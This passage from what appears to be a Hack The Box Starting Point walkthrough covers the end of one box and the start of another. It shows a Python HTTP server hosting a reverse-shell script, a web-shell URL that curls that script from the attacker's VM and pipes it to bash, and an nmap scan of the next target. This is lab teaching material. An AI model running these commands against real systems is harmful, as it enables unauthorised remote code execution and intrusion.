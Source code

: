 15. Now we host the `shell.sh` on a `python3 http.server` by running the following command in the directory where `shell.sh` locates

    ```bash
    python3 -m http.server 8000
    ```

17. By using our one-liner PHP, insert the command we would like to execute in the `cmd` parameter, here we use the `curl` utility to fetch the bash reverse shell file from our local host, then pipe it to `bash` to execute the file

    ```
    http://thetopper.htb/shell.php?cmd=curl%20<VM_IP_Address>:8000/shell.sh|bash
    ```

    ![](../assets/img/htb-starting-point/13.png)
    
    A successful reverse shell connected, now we can execute any command here. Finally, we can see the flag.
    
# 2.1 Archetype

1. Run a `nmap` scan

   ```
   nmap -sV TARGET_IP
   ```

   ![](../assets/img/htb-starting-point/14.png)
